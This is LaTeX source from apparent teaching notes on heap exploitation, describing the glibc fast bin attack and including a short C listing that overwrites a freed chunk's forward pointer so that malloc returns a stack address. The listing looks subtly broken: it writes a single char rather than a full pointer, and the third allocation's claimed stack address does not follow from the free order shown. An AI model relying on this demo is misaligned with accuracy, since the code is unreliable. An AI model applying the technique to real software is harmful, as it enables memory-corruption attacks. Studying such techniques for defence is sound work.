 \documentclass{article}
\numberwithin{equation}{subsection}
\begin{document}
\subsection{Bin Attacks}
\subsubsection{Fast Bin Attack}
This attack allow to better understand why aforementioned vulnerabilities are dangerous. The basic idea of a \emph{Fast Bin Attack} is to exploit the fast bin management in order to allocate an arbitrary memory location as a chunk. This allow an attacker to read and/or write wherever *he wants. Recall: the first 8 byte of payload of a fast bin are used as pointer to the next node of the list.\newline
\noindent
What if we change this byte with the address of another memory location?
\newline
\noindent
Well, arbitrary write and/or read is obtained. Code \ref{lst:fast-bin-attack} shows an example.\newline
\noindent
\begin{minipage}{\textwidth}
\centering
    \lstset{style=cstyle}
    \begin{lstlisting}[caption={Fast bin attack example.},captionpos=b,label={lst:fast-bin-attack}]
    char* a = malloc(30);       //0x55bdd334b670 
    char* b = malloc(30);       //0x55bdd334b6b0
    char* c = malloc(30);       //0x55bdd334b6f0
    
    free(a);
    free(b);
    free(c);
    
    int stack_var = 0x20;       //0x7ffc8e3e066c
    *a = (char *)&stack_var;    //Overwriting the fd with a stack address
    
    char* d = malloc(30);       //0x55bdd334b6f0 
    char* e = malloc(30);       //0x55bdd334b6b0
    char* f = malloc(30);       //0x7ffc8e3e066c
\end{lstlisting}
\end{minipage}
\end{document}
